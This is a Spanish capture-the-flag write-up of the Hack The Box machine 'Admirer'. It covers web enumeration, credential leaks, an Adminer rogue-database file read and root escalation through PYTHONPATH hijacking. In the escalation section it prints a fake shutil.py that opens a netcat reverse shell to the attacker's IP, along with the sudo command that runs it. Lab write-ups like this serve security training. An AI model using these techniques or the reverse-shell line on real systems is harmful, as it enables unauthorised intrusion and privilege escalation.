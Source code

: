 # Admirer WriteUp
Volver al [Indice](../README.md)

Comenzamos con la segunda máquina de HTB, en este caso como acaba de ser retirada, les traigo la máquina "Admirer", ha sido creada por "polarbearer & GibParadox", cuenta con una dificultad de 5.3 sobre 10, por lo que se encuentra en el rango de "Medium" y tiene una puntuación de 3.4 sobre 5.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## *# Enumeración*  
Como normalmente, vamos a lanzar un nmap a los 65535 puertos para enumerar rápidamente los servicios de la máquina.

![nmap1](../images/htb/admirer/nmap1.png)

Después vamos a lanzar otro nmap para verificar los servicios y la versión de estos.

![nmap2](../images/htb/admirer/nmap2.png)

Vemos que tiene:
* Puerto 21 => un FTP (pero sin acceso anónimo habilitado).
* Puerto 22 => Encontramos el servicio SSH (pero se encuentra en una versión en la que no podemos explotar prácticamente nada, así que no vamos a  buscar ningún exploit).
* Puerto 80 => Con un apache (Al acceder a él solo vemos la página inicial).

Viendo esto, vamos a lanzar la herramienta dirsearch en búsqueda de directorios. Nos encuentra simplemente el directorio **"robots.txt"** de interés.

![dirsearch1](../images/htb/admirer/dirsearch.png)

Accedemos al directorio robots y encontramos que existe un directorio llamado "admin-dir" el cual parece basante interesante.

Lo colocamos a ver que contiene y vemos que nos da un error 403(Forbidden).

![robots](../images/htb/admirer/robots.png)

Pero... Este error 403 no nos impide lanzar una busqueda con dirsearch a ese directorio... Si encontramos algo podríamos acceder a el saltándonos este error.

![dirsearch2](../images/htb/admirer/dirsearch2.png)

¡Perfecto!, hemos encontrado 2 directorios con código 200, descargamos los ficheros y encontramos las credenciales para acceder al FTP.

![files](../images/htb/admirer/files.png)

Accedemos al FTP y encontramos 2 ficheros (uno contiene un dump de la BD y el otro un archivo comprimido).

![ftp](../images/htb/admirer/ftp.png)

En el archivo **"dump.sql"** no encontramos nada pero al descomprimir el otro archivo encontramos varios directorios que parecen un backup de la web.

Entre ellos hay un directorio al que podemos acceder vía web con varios scripts, pero no contienen nada lo suficientemente relevante.

Lanzamos una búsqueda con dirsearch a este directorio y nos encuentra un archivo el cual nos lleva a una aplicación web para conectar con una base de datos. 

Probamos credenciales por defecto y otras que hemos encontrado en alguno de los archivos anteriores descomprimidos pero no tenemos acceso.

![dirsearch3](../images/htb/admirer/dirsearch3.png)

![adminer](../images/htb/admirer/adminer.png)

Comprobamos en Google si encontramos alguna vulnerabilidad y/o exploit para esta aplicación (Adminer 4.6.2) y **¡BIEN!**, existe una vulnerabilidad para poder acceder a ella sin credenciales.  
Creando una base de datos localmente y accediendo a ella a través de esta aplicación podríamos visualizar el contenido.

Dejo el enlace a la página donde encontré la vulnerabilidad: [https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

## *# Explotación*
Dejo por aquí los pasos que he seguido para crear la base de datos en mi equipo, decir que si vosotros no usáis las mismas versiones o aplicaciones que yo pueden variar:
* CREATE DATABASE admirer;
* CREATE USER 'borb3d'@'%' IDENTIFIED BY 'borb3d';
* GRANT ALL PRIVILEGES ON * . * TO 'borb3d'@'%';
* FLUSH PRIVILEGES;
* use admirer;
* create table test(data VARCHAR(255));
* En el archivo "/etc/mysql/mariadb.conf.d/50-server.cnf" debemos de añadir la línea "bind-address      =0.0.0.0"
* Reiniciamos el servicio (systemctl restart mysql)

![database](../images/htb/admirer/DB1.png)
![dbConf](../images/htb/admirer/dbConf.png)

Con esto ya podríamos volver a la aplicación web y acceder con nuestros datos.

![dbLogin](../images/htb/admirer/dbLog.png)

Y ¡estamos dentro!

![dbOkLog](../images/htb/admirer/dbOkLog.png)

Ya dentro de la aplicación, accedemos al apartado "Comando SQL" para poder ejecutar nuestra consulta y ver datos que no se deberían ver.

En este apartado lanzamos la siguiente consulta:
> load data local infile '../index.php'  
into table test  
fields terminated by "/n"

![queryOK](../images/htb/admirer/queryOk.png)

Después de esto solo tenemos que ir a la pestaña "registros", a la izquierda, para poder visualizar nuestra consulta.

![bdCred](../images/htb/admirer/BDcred.png)

Ya tenemos las credenciales, vamos a probar con el servicio SSH por si han reutilizado las contraseñas.

Y parece que **SI**, conseguimos conectarnos al servidor como el usuario "Waldo", cogemos la flag de user y seguimos.

![userFlag](/images/htb/admirer/userFlag.png)

## *# Post-Explotación*
Vamos a ver como podríamos escalar privilegios por aquí.  
Como siempre, vamos a probar con el comando sudo -l para ver que privilegios tenemos como ROOT, y vemos que poseemos este privilegio.  
```(ALL) SETENV: /opt/scripts/admin_tasks.sh```

![sudo -l](../images/htb/admirer/sudo-l.png)

Examinamos a fondo ese script y vemos que está todo correcto en cuanto a rutas absolutas a los binarios... Pero vemos que en una de las funciones llama a un archivo python del mismo directorio, así que lo revisamos también.

![scriptAdmin](../images/htb/admirer/scriptAdmin.png)

Vemos que el archivo llama a una librería, vamos a intentar falsear la ruta de la libreria con PYTHONPATH.

![shutil.py](../images/htb/admirer/shutiPY.png)

Para comenzar, vamos a elegir un directorio en el que tengamos permiso de escritura para realizar nuestro script, "/tmp" por ejemplo.  
* Dentro creamos un archivo llamado shutil.py (que es el nombre del módulo que vamos a falsear).
* En el archivo colocamos el código que queramos ejecutar como ROOT (en mi caso, una Reverse Shell) <Debemos mantener la estructura del archivo original(su función con sus parámetros para que no nos de error)>.  

 ~~~
import os  # importamos la librería que vamos a utilizar

def make_archive(a, b, c):  # Definimos la función que llama el script original (manteniendo las 3 variables para que no haya error)
    os.system("nc 10.10.15.81 4444 -e '/bin/sh'")  # Le mandamos nuestra reverse shell para que la ejecute
~~~

![scriptYexec](/images/htb/admirer/scriptYejc.png)

Abrimos otra consola y la dejamos en escucha por el puerto que colocamos anteriormente (en mi caso 4444).

Lanzamos el comando ```'sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6'``` (para que nos coja la ruta de nuestra librería falsa en lugar de la original y poder falsearlo) y le pasamos el parámetro 6 que sería el que ejecuta el script de python (se puede lanzar directamente o después).

![flagRoot](../images/htb/admirer/flagRoot.png)

y...¡Somos ROOT!

